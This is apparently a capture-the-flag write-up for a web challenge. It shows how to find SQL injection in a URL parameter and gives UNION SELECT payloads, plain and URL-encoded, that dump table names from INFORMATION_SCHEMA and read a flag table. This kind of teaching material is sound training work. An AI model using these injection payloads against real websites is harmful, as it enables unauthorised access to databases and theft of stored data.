



# Web 300 - Undercover Orientation Day

## Challenge Text: 

Hello Rebel, we have a special mission for you. We need you to go undercover as a Storm Trooper for their first day on the job. We have intel that suggests the Orientation Website has a vulnerability in it that will potentially leak important information. Can you find the secret plans?

## How to Solve: 

Navigate to the site and start clicking on the links within the site. You will notice that when you navigate to different links, a `GET` variable in the URL will change: 

The `event` variable changes per link.

This is really the only "source" (data flow analysis - sink & sources) on the page. Really meaning this is the only place for the user to input data on the website. 

An easy way to test for possible SQL injection is to use a single `'`. If it crashes the server, there is probably an avenue for SQLi. 

Great, now lets verify. Can we dump the names of the tables in the database. We can use a `UNION` query like this: 

`Meet and Greet' UNION SELECT table_name,NULL FROM INFORMATION_SCHEMA.TABLES-- -`

(The reason we have NULL in there is because we can see from the page there are two values being returned from the standard query).

In the URL this will look like: 

`https://challenges.silicon-ctf.party/web300/event_details?event=Meet%20and%20Greet%27%20UNION%20SELECT%20table_name%2CNULL%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE--%20-`

This generates a fairly large list of tables, but scrolling through them we will find a table called `Secret_plans`

This looks interesting, let's see if there is a flag in here: 

`Meet and Greet' Union select flag,NULL from secret_plans-- -`

`https://challenges.silicon-ctf.party:443/web300/event_details?event=Meet%20and%20Greet%27%20UNION%20SELECT%20flag%2CNULL%20FROM%20secret_plans--%20-`

